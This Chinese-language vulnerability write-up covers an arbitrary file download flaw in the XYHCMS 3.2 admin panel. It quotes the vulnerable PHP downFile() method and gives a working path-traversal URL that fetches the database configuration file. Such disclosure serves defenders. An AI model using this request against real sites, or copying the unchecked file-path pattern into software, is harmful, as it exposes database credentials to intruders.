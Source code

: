 XYHCMS 3.2 后台任意文件下载
===========================

一、漏洞简介
------------

没有对下载的文件做任何限制

二、漏洞影响
------------

XYHCMS 3.2

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/DatabaseController.class.php`的downfile()方法

    public function downFile() {  
        if (empty($_GET['file']) || empty($_GET['type']) || !in_array($_GET['type'], array("zip", "sql"))) {  
            $this->error("下载地址不存在");  
        }  
        $path     = array("zip" => $this->getDbPath() . "Zip/", "sql" => $this->getDbPath() . '/');  
        $filePath = $path[$_GET['type']] . $_GET['file'];  
        if (!file_exists($filePath)) {  
            $this->error("该文件不存在，可能是被删除");  
        }  
         $filename = basename($filePath);  
         header("Content-type: application/octet-stream");  
         header('Content-Disposition: attachment; filename="' . $filename . '"');  
         header("Content-Length: " . filesize($filePath));  
         readfile($filePath);  
     }

### 漏洞复现

1.  登录后台
2.  访问`http://www.0-sec.org/xyhai.php?s=/Database/downFile/file/..\\..\\..\\App\\Common\\Conf\\db.php/type/zip`
3.  下载到数据库配置文件
